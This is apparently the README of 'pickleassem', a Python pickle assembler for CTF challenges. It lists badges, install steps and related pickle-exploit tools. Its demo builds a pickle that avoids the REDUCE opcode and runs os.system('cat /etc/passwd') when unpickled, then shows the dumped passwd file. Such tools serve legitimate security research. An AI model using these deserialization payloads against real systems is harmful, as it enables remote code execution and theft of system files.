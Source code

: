 # pickleassem

[![PyPI - Downloads](https://pepy.tech/badge/pickleassem)](https://pepy.tech/count/pickleassem)
[![PyPI - Version](https://img.shields.io/pypi/v/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/pickleassem.svg)](https://pypi.org/project/pickleassem)

[![GitHub Actions - Status](https://github.com/gousaiyang/pickleassem/workflows/Build/badge.svg)](https://github.com/gousaiyang/pickleassem/actions?query=workflow%3ABuild)
[![Codecov - Coverage](https://codecov.io/gh/gousaiyang/pickleassem/branch/master/graph/badge.svg)](https://codecov.io/gh/gousaiyang/pickleassem)

A simple pickle assembler to make handcrafting pickle bytecode easier.

This is useful for CTF challenges like [pyshv in Balsn CTF 2019](https://ctftime.org/task/9386).

## Demo

```python
import pickle
import pickletools

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
assert b'R' not in payload
print(payload)
pickletools.dis(payload, annotate=1)
pickle.loads(payload)
```

Output:

```
b'\x80\x04(\x8c\x0fcat /etc/passwdios\nsystem\n.'
    0: \x80 PROTO      4 Protocol version indicator.
    2: (    MARK         Push markobject onto the stack.
    3: \x8c     SHORT_BINUNICODE 'cat /etc/passwd' Push a Python Unicode string object.
   20: i        INST       'os system' (MARK at 2) Build a class instance.
   31: .    STOP                                   Stop the unpickling machine.
highest protocol among opcodes = 4
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

## Installation

Install with pip: `pip install -U pickleassem`

## Documentation

Just refer to the source code. Each method of `PickleAssembler` whose name begins with `push`, `build`, `pop` or `memo` corresponds to a pickle opcode. Methods whose name begins with `util` are higher-level utility functions. `append_raw` can be used to insert arbitrary raw opcode.

The following opcodes and corresponding features are not implemented: `PERSID`, `BINPERSID`, `EXT1`, `EXT2`, `EXT4`, `FRAME`, `NEXT_BUFFER`, `READONLY_BUFFER`.

## See Also

Other tools for pickle exploit:

- `anapickle`: [slides](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf), [repo](https://github.com/sensepost/anapickle)
- [`pwnypack.pickle`](https://github.com/edibledinos/pwnypack/blob/master/pwnypack/pickle.py)
